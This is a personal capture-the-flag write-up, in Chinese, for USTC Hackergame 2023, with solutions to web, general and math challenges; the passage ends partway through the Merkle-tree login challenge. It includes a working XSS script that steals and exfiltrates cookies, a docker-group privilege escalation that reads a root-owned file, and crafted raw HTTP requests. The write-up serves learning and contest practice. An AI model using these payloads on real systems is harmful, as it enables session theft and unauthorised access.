

``` javascript
/*!
 * Title: 中国科学技术大学第十届信息安全大赛个人题解
 * Author: Xzonn
 * Date: 2023-11-04
 * License: CC-BY-NC-SA 4.0
 */
```
大佬太多了，<del>不打算多写了</del>没忍住，还是写了。[写都写了](https://xzonn.top/posts/Hackergame-2023-Writeups.html)，还是发出来吧。[“JSON ⊂ YAML?”](#json--yaml)（可能）是非预期解。

## Web
### Hackergame 启动
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/Hackergame%20%E5%90%AF%E5%8A%A8/)

祖传题，打开页面之后随便录制一下然后提交，查看地址栏：



把“similarity=0”改成“similarity=100”，提交，得到flag。

### 更深更暗
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E6%9B%B4%E6%B7%B1%E6%9B%B4%E6%9A%97/)

打开网页，直接<kbd>Ctrl + A</kbd>全选复制，然后粘贴到随便一个编辑框得到flag。

### 赛博井字棋
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E8%B5%9B%E5%8D%9A%E4%BA%95%E5%AD%97%E6%A3%8B/)

打开链接发现是下井字棋，但是井字棋没有必胜策略，手动下了好几局都没赢过对方。被[GeekGame](https://xzonn.top/posts/PKU-Geek-Game-3rd-Writeups.html#emoji-wordle)影响，考虑到这题分类是“web”，猜测是要改Cookie，打开Cookie是类似于jwt的格式，可以Base64解码，但是编辑完之后会报错，应该是做了签名，所以行不通。

一个偶然的机会，我打开控制台，尝试点击对方已有的棋子，发现控制台报错。定位到相关的函数发现：

``` javascript
async function setMove(x, y) {
  if (board[x][y] != 0) {
    return;
  }
  if (frozen) {
    return;
  }
  let url = window.location.href; // 获取当前 URL
  let data = { x: x, y: y }; // 设置要发送的数据
  return fetch(url, {
    method: "POST", // 设置方法为 POST
    headers: {
      "Content-Type": "application/json", // 设置内容类型为 JSON
    },
    body: JSON.stringify(data), // 将数据转换为 JSON 格式
  }).catch(errorHandler);
}
```

也就是说如果棋盘上的格子已经有棋子了，就不会发送请求。于是直接把第一个return注释掉，然后保存（Chrome的控制台已经这么智能了吗），再点一下，发现对方的棋子被我覆盖了？好家伙，这样就直接能连成一条线了，得到flag。

### 组委会模拟器
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E7%BB%84%E5%A7%94%E4%BC%9A%E6%A8%A1%E6%8B%9F%E5%99%A8/)

点进去之后打开控制台，发现所有的消息都是一开始就已经获取的，只不过需要按照一定的延时显示出来，而每点击一次消息模拟撤回就会发送一条请求。懒得拿Python写了，直接上UserScript：

``` javascript
// ==UserScript==
// @name         New Userscript
// @namespace    http://tampermonkey.net/
// @version      0.1
// @description  try to take over the world!
// @author       You
// @match        http://202.38.93.111:10021/
// @grant        none
// @require      https://code.jquery.com/jquery-3.7.1.min.js
// ==/UserScript==

(function() {
  setInterval(
    () =>
      $(".fakeqq-message__bubble span").each((a, b) => {
        if (b.innerText.match(/hack\[[a-z]+\]/)) {
          $(b).click();
        }
      }),
    100
  );
})();
```

等消息跑完得到flag。

### HTTP 集邮册
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/HTTP%20%E9%9B%86%E9%82%AE%E5%86%8C/)

#### Flag 1&Flag 3
这题很有意思，分别需要收集5种和12种HTTP状态码。虽然HTTP状态码很多，但是想要从一个默认配置的nginx服务器里面搞到这么多状态码就不是很容易了。收集完成后得到flag 1和flag 3。

##### 100 Continue
查找417的资料时发现的，添加“Expect: 100-continue”一行：

``` plaintext
POST / HTTP/1.1\r\n
Expect: 100-continue\r\n
Host: example.com\r\n\r\n
```

##### 200 OK
最简单的状态码，只需要发送默认请求即可：

``` plaintext
GET / HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

##### 206 Partial Content
需要加“Range”头：

``` plaintext
GET / HTTP/1.1\r\n
Range: bytes=100-200\r\n
Host: example.com\r\n\r\n
```

##### 304 Not Modified
和缓存有关，从上面的200结果得到ETag和最后修改时间，然后放到请求里：

``` plaintext
GET / HTTP/1.1\r\n
If-Modified-Since: Tue, 15 Aug 2023 17:03:04 GMT\r\n
If-None-Match: "64dbafc8-267"\r\n
Host: example.com\r\n\r\n
```

##### 400 Bad Request
不发送Host即可：

``` plaintext
GET / HTTP/1.1\r\n\r\n
```

##### 404 Not Found
比较简单，请求一个不存在的地址即可：

``` plaintext
GET /1 HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

##### 405 Not Allowed
把GET改成POST即可：

``` plaintext
POST / HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

##### 412 Precondition Failed
和304反过来，要写“If-Match”：

``` plaintext
GET / HTTP/1.1\r\n
If-Match: W/"64dbafc8-267"\r\n
Host: example.com\r\n\r\n
```

##### 414 Request-URI Too Large
把请求路径写得非常长即可，如果还不够长，复制粘贴几次：

``` plaintext
GET /abcdefghijklmnopqrstuvwxyz...abcdefghijklmnopqrstuvwxyz HTTP/1.1\r\n
Host: example.com\r\n\r\n
```

同样想到可以尝试“413 Content Too Large”，但是尝试了一下不太行，请求体太长的话题目网站自己也会炸。同样尝试“431 Request Header Fields Too Large”，发现会返回400而不是431。

##### 416 Requested Range Not Satisfiable
类似于206，但是Range的范围需要改得离谱一点：

``` plaintext
GET / HTTP/1.1\r\n
Range: bytes=100000000-200\r\n
Host: example.com\r\n\r\n
```

##### 501 Not Implemented
随便试出来的，一开始甚至忘了怎么搞出来的了，等看了官方题解才知道。

``` plaintext
GET / HTTP/1.1\r\n
Transfer-Encoding: x\r\n
Host: example.com\r\n\r\n
```

##### 505 HTTP Version Not Supported
把HTTP版本改成不存在的10.0即可：

``` plaintext
GET / HTTP/10.1\r\n
Host: example.com\r\n\r\n
```

##### 413 Content Too Large
（赛后交流补记）

原来可以用`Content-Length`伪造长度：

``` plaintext
GET / HTTP/1.1\r\n
Content-Length: 999999999999\r\n
Host: example.com\r\n\r\n
```

我本来是想手动往里塞东西的，但是把网站搞炸了。不过瞎猫碰死耗子搞出来了501，凑巧也过了。

#### Flag 2
谷歌搜索如何才能让HTTP请求不返回状态码，但是答案都告诉我正常的请求一定会返回状态码。不过我找到了[这篇文档](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Basics_of_HTTP/Evolution_of_HTTP)，里面提到了老旧的HTTP/0.9协议是单行的，于是可以构造请求：

``` plaintext
GET /\r\n\r\n
```

得到的响应也是符合HTTP/0.9的响应，没有状态码，得到flag 2。

### 微积分计算小练习 2.0
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E5%BE%AE%E7%A7%AF%E5%88%86%E8%AE%A1%E7%AE%97%E5%B0%8F%E7%BB%83%E4%B9%A0%202.0/)

（赛后交流补记）

成绩结算页面很简陋，猜测有XSS的机会，随便输入个“123”进去，再一看源代码：

``` javascript
updateElement("#score", "你的得分是 <b>0</b> 分");
updateElement("#comment", "你留下的评论：123");
```

分数不重要，但是评论的字符串是直接拼接进去的，这里可以想办法修改。

看题目提示可以想到是用`window.open()`打开一个弹出窗口，顺带找到了2021年GeekGame“Q小树洞的一大步”的[题解](https://blog.taoky.moe/2021-11-21/geekgame-v1-wp.html#q%E5%B0%8F%E6%A0%91%E6%B4%9E%E7%9A%84%E4%B8%80%E5%A4%A7%E6%AD%A5)，但是这题环境里没有外网，即使报错也没法输出，所以我的思路卡死在这里了。看了官方题解才想到，成绩结算页面是有用的啊，我构造一个网页，让它把数据从评论的接口给我发出来就行了。

首先先写JavaScript让它把Cookie读出来发到评论里，因为flag可能有特殊字符，需要用Base64编码一下，而且“flag”可能会有点长，还需要截断：

``` javascript
document.getElementsByTagName("textarea")[0].value = btoa(document.cookie).substring(0, 25); document.getElementsByTagName("form")[0].submit();
```

写完之后得想办法在成绩结算页面运行，因为有长度限制，所以直接写在评论里不现实。如何才能运行一段自定义的JavaScript？结合前面提示的弹出窗口，它所有的参数是这样的：

``` javascript
open(url, target, windowFeatures)
```

这个`target`是新开的窗口的名字（`window.name`），所以可以把payload代码扔到这里，然后构造字符串让它运行：

``` plaintext
"+[location=name]+"
```

可以直接通过给`location`赋值来跳转页面我确实是第一次知道，如果写`location.href`过不了检测，`location["href"]`太长了。写个脚本：

``` python
import base64
import re
import requests
import urllib.parse

from pwn import *

token = "<MY TOKEN>"

context(log_level = "error")

session = requests.Session()
session.get(f"http://202.38.93.111:10051/?token={urlencode(token)}")
b64str = ""
start = 0
while True:
  session.post("http://202.38.93.111:10051/result", {
    "comment": '"+[location=name]+"'
  })
  conn = connect("202.38.93.111", 10053)
  conn.sendlineafter(b"token: ", token.encode())
  conn.sendlineafter("文件。".encode("utf8"), f"""<script>open("http://web/result", `javascript:document.getElementsByTagName("textarea")[0].value = btoa(document.cookie.split("flag=")[1]).substring({start}, {start + 24}); document.getElementsByTagName("form")[0].submit();`);</script>\nEOF""".encode())
  conn.recvuntil(b"Bye bye!")
  conn.close()
  response = session.get("http://202.38.93.111:10051/result")
  s = re.search(r"你留下的评论：([^\"]+)", response.text).group(1)
  if s == "（还没有评论）":
    break
  print(s, end="")
  b64str += s
  start += 24

print("\n" + urllib.parse.unquote_plus(base64.b64decode(b64str).decode()))
```

至此，Web题就算都做出来了！（虽然是赛后才做出来的）

## General
### 猫咪小测
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E7%8C%AB%E5%92%AA%E5%B0%8F%E6%B5%8B/)

##### 1. 想要借阅世界图书出版公司出版的《A Classical Introduction To Modern Number Theory 2nd ed.》，应当前往中国科学技术大学西区图书馆的哪一层？（30 分）
先从[中国科学技术大学图书馆](https://lib.ustc.edu.cn/)网站查找馆藏，发现位于“西区外文书库”，继续找到[“西区图书馆简介”](https://lib.ustc.edu.cn/%E6%9C%AC%E9%A6%86%E6%A6%82%E5%86%B5/%E5%9B%BE%E4%B9%A6%E9%A6%86%E6%A6%82%E5%86%B5%E5%85%B6%E4%BB%96%E6%96%87%E6%A1%A3/%E8%A5%BF%E5%8C%BA%E5%9B%BE%E4%B9%A6%E9%A6%86%E7%AE%80%E4%BB%8B/)，外文书库位于12楼。答案是`12`。

##### 2. 今年 arXiv 网站的天体物理版块上有人发表了一篇关于「可观测宇宙中的鸡的密度上限」的论文，请问论文中作者计算出的鸡密度函数的上限为 10 的多少次方每立方秒差距？（30 分）
机翻，得到英语“The Upper Limit of Chicken Density in the Observable Universe”，谷歌搜索发现[论文](https://arxiv.org/abs/2303.17626)，摘要里有“We find the most restrictive upper limit from the domains considered to be 10<sup>23</sup> pc<sup>−3</sup>...”，答案是`23`。

##### 3. 为了支持 TCP BBR 拥塞控制算法，在编译 Linux 内核时应该配置好哪一条内核选项？（20 分）
继续机翻，得到英语“TCP BBR congestion control algorithm Linux compile”，谷歌搜索发现[这篇文章](https://www.cyberciti.biz/cloud-computing/increase-your-linux-server-internet-speed-with-tcp-bbr-congestion-control/)，页面里面有“CONFIG_”开头的字符，答案是`CONFIG_TCP_CONG_BBR`。

##### 4. 🥒🥒🥒：「我……从没觉得写类型标注有意思过」。在一篇论文中，作者给出了能够让 Python 的类型检查器 MyPY mypy 陷入死循环的代码，并证明 Python 的类型检查和停机问题一样困难。请问这篇论文发表在今年的哪个学术会议上？（20 分）
接着机翻，得到英语“mypy infinite loop”，谷歌搜索发现一篇2023年的[论文](https://drops.dagstuhl.de/opus/volltexte/2023/18237/pdf/LIPIcs-ECOOP-2023-44.pdf)，里面有一行“ECOOP 2023”，应该就是会议名称，答案是`ECOOP`。

### 旅行照片 3.0
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E6%97%85%E8%A1%8C%E7%85%A7%E7%89%87%203.0/)

##### 题目1
从中午的第一张图片看到学长的吊牌上写着“STATPHYS28”，谷歌搜索发现[官网](https://statphys28.org/)，日期是2023年8月7日到11日，具体哪天我不确定，但是下面题目2的答案是确定的，一天一天地尝试，答案是`2023-08-10`。

##### 题目2
上午的图片可以看出来是个奖牌，“MMII”是罗马数字2002，搜索“M Koshiba 2002”发现是诺贝尔奖得主小柴昌俊，他所在的单位是东京大学，所以搜索“ノーベル賞メダル 東京大学”，进入[这个页面](https://www.s.u-tokyo.ac.jp/ja/gallery/nobelprize/)，里面是东大科学博物馆展示的3个奖牌，并且附上了得主的出生年份。最年轻的是1959年出生的梶田隆章，他在2015年得奖，所在单位是“东京大学宇宙射线研究所”，点进去[这个页面](https://www.icrr.u-tokyo.ac.jp/prwps/commemorative/nobel/description.html)，右上角就有缩写，答案是`ICRR`。

##### 题目3
直接对中午的第二张图片用谷歌搜图，发现[这个页面](http://unozone.info/20029/#p06)的介绍，这里应该是上野公园。查了一下谷歌地图，上野公园位于东大附近，正好和前面的活动对得上。搜一下“上野公園 イベント”，查到[2023年的活动](https://www.uenopark.info/ad2023/)，其中8月10日-13日举办的是“全国梅酒まつりin東京”。跳到官网发现有一则[志愿者招募通知](https://umeshu-matsuri.jp/tokyo_staff/)，问卷链接格式正好一样，答案是`S495584522`。

##### 题目4
知道了喷泉在上野公园，那么博物馆应该就是旁边的日本国立科学博物馆，直接看[购票指南](https://www.kahaku.go.jp/userguide/access/index.html#admission)，里面提到一般大学生票价630日元，但是合作学校的学生免费，查到[合作学校](https://www.kahaku.go.jp/learning/university/partnership/enroll.php)名单里包含东京大学，所以费用是`0`。

##### 题目5
按照题目1的答案，回去找“STATPHYS28”会议在8月10日的活动安排，发现晚上有个[宴会](https://statphys28.org/banquet.html)，会面地点是“Yasuda Auditorium”，换成简体中文就是答案`安田讲堂`。（我感觉预期解应该是先看每天的活动安排，找到坐船的这天，然后回答题目1。）

##### 题目6
谷歌搜索“ボタン＆カフリンクス 上野駅”发现[这个页面](https://pandafactory.tokyo/)，找到8月3日-13日的活动，正好是粉色的海报，照片上是`熊猫`。

第二个广告牌我在上野站附近找了好久，一直没找到，但是我之前看新闻有印象说涩谷附近有3D广告牌，查到[这篇介绍](https://www.sohu.com/a/575491613_161403)说是`秋田犬`，填进去对了。后来才发现题目说是“出站口附近”，而“我”下车的地点应该是[Nintendo TOKYO](https://www.nintendo.co.jp/officialstore/index.html)所在的涩谷站，怪不得。

### 奶奶的睡前 flag 故事
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E5%A5%B6%E5%A5%B6%E7%9A%84%E7%9D%A1%E5%89%8D%20flag%20%E6%95%85%E4%BA%8B/)

一开始还以为是[图片隐写](https://ctf-wiki.org/misc/picture/introduction/)，但是找了几个工具都没有得到什么有效信息。后来我重新读了一下题目说明，发现加粗了几个地方：“谷歌『亲儿子』”“连系统都没心思升级”“截图”，谷歌亲儿子应该是指Google Pixel系列手机，谷歌一下“Google Pixel 漏洞”，果然找到了名为[“aCropalypse”](https://zh.wikipedia.org/wiki/ACropalypse)的漏洞（CVE 2023-21036），同时找到了一个[能恢复图片的网站](https://acropalypse.app/)。要恢复图片需要手机分辨率，根据题目提供的图片大小“1080x1068”猜测应该是标准的1080x1920大小，提交上去得到恢复的图片。

### 虫
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E8%99%AB/)

> 你觉得还是当昆虫轻松一些。

（赛后交流补记）

看到这么多人完成，但我毫无头绪。本来以为是[音频隐写](https://ctf-wiki.org/misc/audio/introduction/)，但是用了很多软件都没有结果。

回去看题干，问了ChatGPT“通过无线信道传输图片的方式包含哪些”，它也没给我什么有用的答案。但我其实应该把后面那句话也加上的：

> 如果精通此道，或许就可以接收来自国际空间站（ISS）的图片了。

实际上谷歌“无线接收国际空间站的图片”能够搜到[这篇文章](https://pttcn.net/a/zixun/guowai/2020/0801/29499.html)，如果我当时好好搜索一下应该也能找到，这个通讯方式叫[“SSTV”](https://zh.wikipedia.org/wiki/%E6%85%A2%E6%89%AB%E6%8F%8F%E7%94%B5%E8%A7%86)（慢扫描电视）。

知道了解码方式，后面的做法就很简单了，有个[Python的包](https://github.com/colaclanth/sstv)可以直接把.wav文件转成.png图片，安装一下然后使用，完事。

### JSON ⊂ YAML?
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/JSON%20%E2%8A%82%20YAML/)

#### Flag 1
题目提示里提到了YAML 1.1和1.2的区别，于是找到了[官方文档](https://yaml.org/spec/1.2.2/ext/changes/)，里面提到：

> The next-line `\x85`, line-separator `\u2028` and paragraph-separator `\u2029` characters are no longer considered line-break characters. Within scalar values, this means that next-line characters will not be included in the white-space normalization. Using any of these outside scalar values is likely to result in errors during parsing. For a relatively robust solution, try replacing `\x85` and `\u2028` with `\n` and `\u2029` with `\n\n`.

大意就是，这几个字符会被YAML 1.1当成是换行符。

所以想到发送含有这几个字符的内容，因为终端手动输入不好输入，于是拿Python写：

``` python
from pwn import *

conn = connect("202.38.93.111", 10096)
conn.sendlineafter(b"Please input your token:", b"<MY TOKEN>")
conn.sendlineafter(b"Input your JSON:", '["\u0085\u2028\u2029"]'.encode("utf8"))
print(conn.recvall().decode("utf8"))
conn.close()
```

解码的结果：

``` plaintext
As JSON: ['\x85\u2028\u2029']
As YAML 1.1: ['\u2028\u2029']
```

可以看到`\x85`在YAML 1.1里面消失了。得到flag 1。

#### Flag 2
要获得flag 2首先得满足json和pyyaml解析不报错，否则会直接返回错误信息。

官方文档里提示的其他地方我都尝试构造了，但没有得到能用的结果。我继续查找资料的时候发现了[“YAML Test Matrix”](https://matrix.yaml.info/)，里面是一些测试用例，[点进去](https://matrix.yaml.info/valid.html)之后对比“native”一列的“py pyyaml”和“py ruamel”，发现了一个测试用例[#2JQS](https://matrix.yaml.info/details/2JQS.html)：

``` yaml
: a
: b
```

直接本地解析这个测试用例，无论是pyyaml还是ruamel都会报错。但是测试用例的标签里有个“duplicate-key”，想到可以尝试构建一个含有重复键的请求，于是构造了这样的请求：

``` json
{"a": 1, "a": 2}
```

果然，json和pyyaml解析成功，ruamel解析失败，提交上去得到flag 2。

### Git? Git!
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/Git%20Git!/)

谷歌搜索“Git 查看撤销的提交”，发现可以用`git reflog`命令查看曾经的commit记录，然后用`git reset --hard <commit>`恢复到某个commit，于是得到flag。

### Docker for Everyone
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/Docker%20for%20Everyone/)

谷歌搜索“docker 提权”，发现了[一篇文章](https://www.freebuf.com/articles/system/170783.html)，里面提到拥有docker用户组权限的用户可以借助docker提权。因为题目环境本身应该也是个docker，所以这个题是要在docker里跑docker？（禁止套娃）

先在根目录下运行`ls -l`，发现flag的指向：

``` plaintext
lrwxrwxrwx    1 root     root            13 Oct  8 12:10 flag -> /dev/shm/flag
```

运行`docker images`，发现只有一个`alpine`镜像（其实在启动界面也有提示），于是运行：

``` shell
docker run -it --rm -v /dev/shm:/dev/shm alpine /bin/cat /dev/shm/flag
```

得到flag。

### 🪐 高频率星球
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%F0%9F%AA%90%20%E9%AB%98%E9%A2%91%E7%8E%87%E6%98%9F%E7%90%83/)

下载文件，拿VS Code打开，可以看出来是一个多行的文本文件，除了第一行外，后面的每行都是一个json格式的数组。拿Python写个脚本将其转换成文本并保存，然后手动删除控制符，本地运行一次即可得到flag。

### 🪐 流式星球
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%F0%9F%AA%90%20%E6%B5%81%E5%BC%8F%E6%98%9F%E7%90%83/)

按照题目给出的脚本，先本地找一个mp4文件跑一下，可以发现输出的二进制文件就是每个像素的RGB值。那么可以想到直接读取二进制文件的数据，然后按照RGB的顺序写入图片即可。但是前提是需要知道视频的宽和高，根据题目给出的脚本，可以知道最后输出的二进制文件大小是`width * height * frame_count * 3`，所以可以通过分解质因数，找到可能得图片宽度。题目给出的二进制文件大小是135146688，并且故意截掉了最后的0-100位，所以只需要在135146688-135146788范围内分解因数：

``` python
from functools import reduce

def factors(n) -> set:
  try:
    # Source: https://stackoverflow.com/questions/6800193/what-is-the-most-efficient-way-of-finding-all-the-factors-of-a-number-in-python
    # Author: agf
    return set(reduce(list.__add__, ([i, n // i] for i in range(2, int(n ** 0.5) + 1) if n % i == 0)))
  except:
    return set()

all_factors = set()
for i in range(0, 101):
  if i % 3 != 0:
    continue
  temp = factors((135146688 + i) // 3)
  if len(temp) < 3:
    continue
  all_factors |= temp

print(sorted(all_factors))
```

将所有的因数作为图片的宽，然后读取4096行数据，并将读取的数据保存为图片：

``` python
import math
import struct
from PIL import Image

with open("video.bin", "rb") as reader:
  data = reader.read()

factors = [2, 3, 4, 5, 6, 7, 8, 9, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 20, 21, 22, 23, 24, 25, 26, 27, 28, 29, 30, 31, 32, 33, 34, 35, 36, 37, 38, 39, 40, 41, 42, 44, 45, 46, 48, 50, 51, 52, 54, 55, 56, 57, 59, 60, 61, 63, 64, 65, 67, 68, 69, 70, 74, 75, 76, 77, 78, 82, 83, 91, 92, 93, 95, 100, 101, 102, 103, 107, 111, 113, 114, 121, 126, 130, 134, 136, 139, 140, 150, 156, 161, 166, 167, 171, 181, 183, 184, 189, 193, 195, 201, 204, 206, 209, 211, 214, 222, 223, 228, 231, 233, 241, 253, 259, 260, 268, 272, 280, 300, 325, 333, 334, 342, 347, 349, 378, 386, 390, 402, 408, 409, 412, 417, 422, 427, 461, 483, 501, 518, 543, 603, 605, 650, 666, 671, 684, 694, 698, 759, 777, 780, 804, 816, 818, 824, 922, 973, 975, 983, 999, 1002, 1045, 1205, 1206, 1273, 1281, 1300, 1388, 1391, 1396, 1403, 1529, 1554, 1561, 1636, 1711, 1717, 1721, 1745, 1771, 1844, 1950, 1966, 1998, 2013, 2299, 2305, 2331, 2369, 2377, 2412, 2443, 2546, 2776, 2782, 2792, 2919, 2949, 3197, 3221, 3227, 3272, 3277, 3403, 3442, 3490, 3688, 3819, 3900, 3919, 3932, 4057, 4209, 4587, 4610, 4662, 4697, 4738, 4754, 4886, 5092, 5313, 5552, 5898, 6025, 6442, 6454, 6544, 6619, 6667, 6757, 6806, 6884, 6980, 6993, 7477, 7638, 8114, 8479, 8847, 9220, 9476, 9508, 9591, 9663, 9772, 9821, 10703, 11104, 11457, 11495, 11551, 11796, 12215, 12908, 13088, 13238, 13747, 13768, 13960, 13986, 14091, 15276, 15433, 16135, 16193, 16228, 17694, 18440, 18677, 18952, 19016, 19326, 19544, 19595, 22379, 22547, 22914, 23102, 24430, 25437, 25816, 26176, 26237, 26329, 27536, 28859, 28989, 29463, 32109, 32270, 32386, 32456, 34653, 35167, 35388, 37354, 37385, 43109, 44959, 45094, 45828, 46204, 46299, 48860, 54671, 55072, 55207, 56031, 57755, 57978, 59353, 64540, 64912, 65861, 67137, 67641, 69306, 74461, 74708, 82963, 86967, 89918, 93269, 97720, 105501, 106751, 108031, 109342, 110144, 110414, 112062, 115510, 116707, 119177, 129080, 129824, 131722, 134877, 135282, 138612, 150163, 160889, 165621, 168093, 173265, 173934, 178059, 186925, 193343, 195017, 197583, 202013, 202923, 210509, 213502, 215545, 218684, 220828, 224124, 231020, 233414, 238354, 244831, 246169, 248889, 263444, 269754, 271379, 279807, 288775, 300326, 321778, 324093, 331242, 336186, 346530, 357531, 372305, 395166, 398663, 405846, 421018, 437368, 441656, 446029, 450489, 474199, 484397, 489662, 495043, 542758, 549377, 577550, 585051, 592749, 600652, 608769, 643556, 652883, 662484, 672372, 693060, 703889, 715062, 738507, 750815, 763541, 790332, 804445, 819071, 834239, 866325, 883312, 900978, 938519, 979324, 1001087, 1023839, 1072593, 1098754, 1126223, 1155100, 1185498, 1217538, 1251359, 1287112, 1324968, 1365119, 1407778, 1407779, 1453191, 1501630, 1553411, 1608890, 1668478, 1732650, 1732651, 1801956, 1801957, 1877038, 1958648, 1958649, 2047678, 2145186, 2145187, 2252445, 2252446, 2370995, 2370996, 2502717, 2502718, 2649936, 2649937, 2815556, 2815557, 2815558, 3003260, 3003261, 3217779, 3217780, 3465300, 3465301, 3465302, 3754075, 3754076, 3754077, 4095355, 4095356, 4095357, 4504890, 4504891, 4504892, 5005433, 5005434, 5005435, 5005436, 5631112, 5631113, 5631114, 5631115, 5631116, 6435557, 6435558, 6435559, 6435560, 6435561, 7508150, 7508151, 7508152, 7508153, 7508154, 9009780, 9009781, 9009782, 9009783, 9009784, 9009785, 11262224, 11262225, 11262226, 11262227, 11262228, 11262229, 11262230, 11262231, 11262232, 15016299, 15016300, 15016302, 15016303, 15016304, 15016305, 15016306, 15016307, 15016308, 15016309, 22524448, 22524450, 22524451, 22524452, 22524453, 22524454, 22524455, 22524456, 22524457, 22524458, 22524459, 22524460, 22524461, 22524462, 22524463, 22524464]

for width in factors:
  height = math.ceil(len(data) / (width * 3))
  if width > 4096 or width % 10 == 0:
    continue
  if height > 4096:
    height = 4096
  image = Image.new("RGB", (width, height))
  for y in range(height):
    for x in range(width):
      try:
        r, g, b = struct.unpack("<3B", data[(y * width + x) * 3 : (y * width + x + 1) * 3])
        image.putpixel((x, y), (r, g, b))
      except:
        break

  image.save(f"output/{width}.png")
```

查看输出结果，可以看到宽度为427时恰好是可读的（竟然还是BanG Dream!相关的图），拿PhotoShop可以看出来图片的高是759，所以改一下上面的代码把每一帧保存出来就能看到flag了。


### 🪐 低带宽星球
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%F0%9F%AA%90%20%E4%BD%8E%E5%B8%A6%E5%AE%BD%E6%98%9F%E7%90%83/)

提到压缩图片，首先想到WebP，直接拿Python写个代码：

``` python
from PIL import Image

image = Image.open("image.png")
image.save("image.webp", lossless=True, quality=100, method=6)
```

顺带一提有损压缩比无损压缩得到的图片竟然要大一些，离谱。这种方法得到的图片大小是172字节，可以得到flag 1。

关于如何继续压缩，我有两个思路，一个是更换格式，另一个是手动尝试编码WebP。

拿PhotoShop打开图片发现只有三种颜色的矩形，于是我能想到的最好的办法就是自创一种格式，只保存图片大小、矩形位置、矩形大小、填充颜色……但是这个方法可能不太现实。想到用svg实现：

``` xml
<svg width="1024" height="1024"><rect width="1024" height="1024" fill="#0ef3da"/><rect width="662" height="1024" fill="#5e9ea9"/><rect width="398" height="1024" fill="#7d3448"/></svg>
```

然后用gzip命令压缩，保存成svgz文件，大小是103字节，确实也能被评判程序识别，但是大小还是没有达到50字节及以下。

### Komm, süsser Flagge
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/Komm,%20s%C3%BCsser%20Flagge/)

#### Flag 1&Flag 2
（赛后交流补记）

结合[“HTTP 集邮册”](#http-集邮册)这个题，可以猜到是要手动发送HTTP请求。但是我基础知识学得确实不好，不知道还能分段发送的：

``` python
import socket
import time

token = "<MY TOKEN>"

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as client_socket:
  client_socket.connect(("202.38.93.111", 18081))
  client_socket.send(b"P")
  time.sleep(1)
  client_socket.send(f"OST / HTTP/1.1\r\nHost: 202.38.93.111\r\nContent-Length: {len(token)}\r\n\r\n{token}".encode())
  response = client_socket.recv(1024)
  print(response.decode())
```

## Math
### 惜字如金 2.0
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/%E6%83%9C%E5%AD%97%E5%A6%82%E9%87%91%202.0/)

感觉这题好像比去年的题简单，不过去年我没参加，只看了题解。

查看给出的源代码发现部分字符串被简化了，`cod_dict`的每个元素被简化后都只剩下23位，但`check_equals`要求24位。于是根据逻辑手写一个Python代码：

``` python
id_list = [53, 41, 85, 109, 75, 1, 33, 48, 77, 90, 17, 118, 36, 25, 13, 89, 90, 3, 63, 25, 31, 77, 27, 60, 3, 118, 24, 62, 54, 61, 25, 63, 77, 36, 5, 32, 60, 67, 113, 28]

cod_dict = ['nymeh1niwemflcir}echaet', 'a3g7}kidgojernoetlsup?h', 'ulw!f5soadrhwnrsnstnoeq', 'ct{l-findiehaai{oveatas', 'ty9kxborszstguyd?!blm-p']

x = ""
for id in id_list:
  a = id // 24
  b = id % 24
  print(f"{a:>2d} {b:>2d} {cod_dict[a][b]}")
  x += cod_dict[a][b]

print(x)
```

显然输出结果应该以`flag{`为开始，以`}`为结尾。因为23和24只差一位，所以手动尝试修改`cod_dict`插入一位即可。我修改后的结果：

``` python
cod_dict = ['nymeh1niwemflcir}echaet', 'a3g7}kidgojernoetlsup?h', 'ullw!f5soadrhwnrsnstnoeq', 'cct{l-findiehaai{oveatas', 'tty9kxborszstguyd?!blm-p']
```

重新运行即可得到flag，并没有其他套路。

### O(1) 用户登录系统
> [题面和官方题解](https://github.com/USTC-Hackergame/hackergame2023-writeups/blob/master/official/O(1)%20%E7%94%A8%E6%88%B7%E7%99%BB%E5%BD%95%E7%B3%BB%E7%BB%9F/)

（赛后交流补记）

这个题其实我有大致思路，不过没有深入考虑怎么构造，等到看到官方题解之后又整理了一下思路，发现没那么难。

从题目给的源代码的变量名可以知道这是一种“Merkle树”，其大致思想就是先把数据放到最底部的叶节点求hash，而父节点的hash是两个叶节点的数据拼合后求hash，最后算出来根节点。

模拟一下这个过程，假设提供了4个用户，其用户名和密码组合是A、B、C、D，那么每个节点的数据是：

| buffer[7] | buffer[6] | buffer[5] | buffer[4] | buffer[3] | buffer[2] | buffer[1] |
| --- | --- | --- | --- | --- | --- | --- |
| hash(D) | hash(C) | hash(B) | hash(A) | hash(6, 7) | hash(4, 5) | hash(2, 3) |

